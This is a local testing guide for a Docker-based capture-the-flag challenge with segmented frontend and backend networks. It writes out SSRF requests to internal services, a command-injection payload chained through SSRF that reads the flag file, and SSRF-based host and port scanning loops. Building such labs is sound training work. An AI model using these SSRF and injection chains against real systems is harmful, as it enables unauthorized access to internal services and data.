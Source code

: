 # Local Testing Guide with Custom IP Addresses

This guide explains how to test your CTF locally with different IP addresses for each service to simulate a more realistic network environment.

## Network Architecture

### IP Address Assignment
- **Nginx Proxy**: `192.168.100.10` (frontend) / `192.168.200.10` (backend)
- **Blog Service**: `192.168.100.20` (frontend) / `192.168.200.20` (backend)
- **Admin Service**: `192.168.200.30` (backend only)
- **Logs Service**: `192.168.200.40` (backend only)

### Network Segmentation
- **Frontend Network**: `192.168.100.0/24` - Public-facing services
- **Backend Network**: `192.168.200.0/24` - Internal services

## Quick Start

### 1. Start Testing Environment
```bash
# Use the testing configuration
docker-compose -f docker-compose-testing.yml up -d

# Check container IPs
docker network inspect ctf_govware_frontend
docker network inspect ctf_govware_backend
```

### 2. Access Points
- **Blog Website**: http://localhost:8081
- **Admin Panel**: http://localhost:8081/admin (via nginx proxy)
- **Logs Service**: http://localhost:8081/logs-service (via nginx proxy)

## Testing SSRF with Different IPs

### 1. Basic SSRF Test
```bash
# Test SSRF to admin service using IP address
curl "http://localhost:8081/fetch-next?url=http://192.168.200.30:80"

# Test SSRF to logs service using IP address
curl "http://localhost:8081/fetch-next?url=http://192.168.200.40:80"
```

### 2. Container Name Resolution
```bash
# Test SSRF using container names (should also work)
curl "http://localhost:8081/fetch-next?url=http://admin:80"
curl "http://localhost:8081/fetch-next?url=http://logs:80"
```

### 3. Network Scanning Simulation
```bash
# Test different IPs in the backend network
curl "http://localhost:8081/fetch-next?url=http://192.168.200.30:5001"
curl "http://localhost:8081/fetch-next?url=http://192.168.200.31:5001"  # Should fail
curl "http://localhost:8081/fetch-next?url=http://192.168.200.40:5002"
```

## Advanced Testing Scenarios

### 1. Command Injection via SSRF
```bash
# Chain SSRF with command injection using IP addresses
curl -X POST "http://localhost:8081/fetch-next?url=http://192.168.200.30:5001/logs" \
  -d "log_file=admin.log; cat /var/flag/flag.txt" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Test with container name
curl -X POST "http://localhost:8081/fetch-next?url=http://admin:5001/logs" \
  -d "log_file=admin.log; ls -la /var/flag" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

### 2. Network Discovery
```bash
# Simulate network discovery through SSRF
for ip in {30..40}; do
  echo "Testing 192.168.200.$ip"
  curl -s "http://localhost:8081/fetch-next?url=http://192.168.200.$ip:5001" | head -n 1
done
```

### 3. Port Scanning
```bash
# Test different ports on admin service
for port in 5000 5001 5002 8080; do
  echo "Testing port $port on admin service"
  curl -s "http://localhost:8081/fetch-next?url=http://192.168.200.30:$port" | head -n 1
done
```

## Debugging and Monitoring

### 1. Check Container Networks
```bash
# Inspect network configuration
docker network ls
docker network inspect ctf_govware_frontend
docker network inspect ctf_govware_backend

# Check container IPs
docker inspect ctf_govware-blog-1 | grep IPAddress
docker inspect ctf_govware-admin-1 | grep IPAddress
docker inspect ctf_govware-logs-1 | grep IPAddress
```

### 2. Container Logs
```bash
# Monitor logs in real-time
docker-compose -f docker-compose-testing.yml logs -f blog
docker-compose -f docker-compose-testing.yml logs -f admin
docker-compose -f docker-compose-testing.yml logs -f nginx
```

### 3. Network Connectivity Test
```bash
# Test connectivity between containers
docker exec ctf_govware-blog-1 ping 192.168.200.30
docker exec ctf_govware-blog-1 curl http://192.168.200.30:5001
```

## Security Testing Scenarios

### 1. Network Isolation Testing
- Verify that admin service is not directly accessible from outside
- Test that SSRF can bypass network restrictions
- Confirm that different networks are properly isolated

### 2. IP-based Access Control
- Test if services respond differently to requests from different IP ranges
- Verify that internal services only accept connections from expected sources

### 3. Service Discovery
- Use SSRF to discover internal services by IP scanning
- Test common internal service ports and endpoints

## Cleanup

```bash
# Stop and remove testing environment
docker-compose -f docker-compose-testing.yml down

# Remove custom networks
docker network prune
```

## Benefits of This Testing Setup

✅ **Realistic Network Environment**: Simulates real-world network segmentation
✅ **IP-based Testing**: Test SSRF with specific IP addresses
✅ **Network Discovery**: Practice network reconnaissance techniques
✅ **Isolation Testing**: Verify network security boundaries
✅ **Advanced Scenarios**: Test complex attack chains

## Notes

- Admin service remains accessible via SSRF to maintain challenge functionality
- Different IP ranges help simulate internal vs external network access
- This setup is ideal for testing and development before CTFd deployment
- All vulnerabilities (SSRF + Command Injection) remain functional

## Troubleshooting

**Issue**: Containers can't reach each other
**Solution**: Check network configuration and ensure containers are on correct networks

**Issue**: SSRF not working with IP addresses
**Solution**: Verify container IPs with `docker inspect` and test connectivity

**Issue**: Services not responding
**Solution**: Check if services are binding to `0.0.0.0` instead of `127.0.0.1`